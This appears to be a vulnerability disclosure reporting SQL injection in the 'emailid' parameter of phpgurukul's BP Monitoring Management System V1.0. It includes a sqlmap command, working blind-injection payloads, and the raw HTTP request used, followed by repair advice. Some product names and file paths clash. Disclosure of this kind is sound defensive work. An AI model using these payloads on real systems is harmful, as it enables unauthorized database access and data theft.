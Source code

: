 # phpgurukul BP Monitoring Management System using PHP and MySQL V1.0 /registration.php SQL injection

# NAME OF AFFECTED PRODUCT(S)

- Company Visitors Management System

## Vendor Homepage

- https://phpgurukul.com/company-visitor-management-system-using-php-and-mysql/

# AFFECTED AND/OR FIXED VERSION(S)

## submitter

- Rmyxx

## Vulnerable File

- /registration.php

## VERSION(S)

- V1.0

## Software Link

- https://phpgurukul.com/bp-monitoring-management-system-using-php-and-mysql/

# PROBLEM TYPE

## Vulnerability Type

- SQL injection

## Root Cause

- A SQL injection vulnerability was identified within the "/registration.php" file of the "BP Monitoring Management System using PHP and MySQL" project. The root cause lies in the fact that attackers can inject malicious code via the parameter "emailid". This input is then directly utilized in SQL queries without undergoing proper sanitization or validation processes. As a result, attackers are able to fabricate input values, manipulate SQL queries, and execute unauthorized operations.

## Impact

- Exploiting this SQL injection vulnerability allows attackers to gain unauthorized access to the database, cause sensitive data leakage,  tamper with data, gain complete control over the system, and even  disrupt services. This poses a severe threat to both the security of the system and the continuity of business operations.

# DESCRIPTION

- During the security assessment of "BP Monitoring Management System using PHP and MySQL", I detected a critical SQL injection vulnerability in the  "/registration.php" file. This vulnerability is attributed to the  insufficient validation of user input for the "emailid" parameter. This  inadequacy enables attackers to inject malicious SQL queries.  Consequently, attackers can access the database without proper  authorization, modify or delete data, and obtain sensitive information.  Immediate corrective actions are essential to safeguard system security  and uphold data integrity.

# Vulnerability details and POC

## Vulnerability location:

- "emailid" parameter

## Payload:

python sqlmap.py -r 1.txt -p emailid -dbms=mysql -dbs

```
Here are the results of sqlmap：


POST parameter 'emailid' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 72 HTTP(s) requests:
---
Parameter: emailid (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: emailid=john@test.com' AND 5328=5328 AND 'GPpu'='GPpu

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: emailid=john@test.com' AND (SELECT 4967 FROM (SELECT(SLEEP(5)))hhry) AND 'FNwB'='FNwB
---
[18:02:20] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.39, PHP 8.0.2
back-end DBMS: MySQL >= 5.0.12
[18:02:20] [INFO] fetched data logged to text files under 'C:\Users\Rmyxx\AppData\Local\sqlmap\output\cve'

```

​     the following is 1.txt

```
1.txt




POST /bpmms/check_availability.php HTTP/1.1
Host: cve
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://cve
Referer: http://cve/bpmms/registration.php
Accept: */*
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=1aflt39bmsiu75til126sqsd5m
Content-Length: 22

emailid=john@test.com

```



## Vulnerability Request Packet

```
POST /bpmms/check_availability.php HTTP/1.1
Host: cve
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://cve
Referer: http://cve/bpmms/registration.php
Accept: */*
Accept-Encoding: gzip, deflate
Cookie: PHPSESSID=1aflt39bmsiu75til126sqsd5m
Content-Length: 22

emailid=john@test.com

```

​      

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:



```
python sqlmap.py -r 1.txt -p emailid -dbms=mysql -dbs
```

![image-20250606180708212](image-20250606180708212.png)            







# Suggested repair

1. **Employ prepared statements and parameter binding:**
   Prepared statements serve as an effective safeguard against SQL  injection as they segregate SQL code from user input data. When using  prepared statements, user - entered values are treated as mere data and  will not be misconstrued as SQL code.
2. **Conduct input validation and filtering:**
   Rigorously validate and filter user input data to guarantee that it  conforms to the expected format. This helps in blocking malicious input.
3. **Minimize database user permissions:**
   Ensure that the account used to connect to the database has only the  minimum required permissions. Avoid using accounts with elevated  privileges (such as 'root' or 'admin') for day - to - day operations.
